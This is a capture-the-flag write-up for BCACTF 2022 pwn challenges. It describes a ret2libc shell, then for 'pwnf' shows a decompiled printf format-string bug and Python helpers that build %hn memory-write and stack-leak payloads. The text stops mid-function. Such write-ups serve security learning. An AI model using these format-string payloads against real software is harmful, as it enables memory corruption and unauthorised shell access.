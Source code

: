 I search for an occurrence of the string `/bin/sh` in libc, and then call the `system` function on that. That launches `/bin/sh` on the server, and i can interact with it.

```sh
$ cat flag.txt
bcactf{ll1bC_h3ights_47d6f3e}
```

## pwnf

Luckily the binary is still not stripped, Ghidra time...

```c
bool echo(void)
{
  size_t sVar1;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_38,0x1a,stdin);
  sVar1 = strlen(local_38);
  if (1 < sVar1) {
    sleep(1);
    printf(local_38);
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 1 >= sVar1;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

Observations:
1. Proper canary AND no overflow from fgets
2. raw `printf`

The name `pwnf` did after all indicate it's a `printf` based bug.
Anyways, I won't bore you with all the details of me banging my head against the wall that is attempting to overwrite the GOT/PLT (not realizing the binary is Full RELRO).

In the end, I built a solution that uses techniques very similar to Format Fortune to modify arbitrary values. Since the `echo` function is called indefinitely in a loop here, I can repeatedly execute commands (i.e. modify memory using `%n`) without any *return-oriented* confusion.

I abstracted away the memory modification into a function, modifying a `$hn` - which, as `man 3 printf` conveniently reminds me is 2 bytes. I chose hn intervals, because printf printing 65kbytes (2 ^ 16 bits) isn't too bad, and it's better than hhn, 1 byte (2 ^ 8 bits) because it requires fewer executions of the printf loop.

```py
def modit(val, argnum, where):  
     payload = f'%{val}c'.encode() if val > 0 else b''  
     payload += f'%{argnum}$hn'.encode()  
     payload += 'i'.encode() * (16-len(payload))  
     payload += p64(where)  
     return payload  

def get_val(r, n):  
    r.recv(timeout=1)  
    r.sendline(f'%{n}$lx'.encode())  
    return int(r.recvuntil(b'\n',timeout=2).strip(), 16)
  
def set8bytes(target, where):  
    print(f"ok so the things i'm writing 0x{hex(target)[2:]} in 4 pieces")  
```

[karmanyaahm@karmanyaahsArch]: ~/CTF/bca22/pwn/formatfortune>$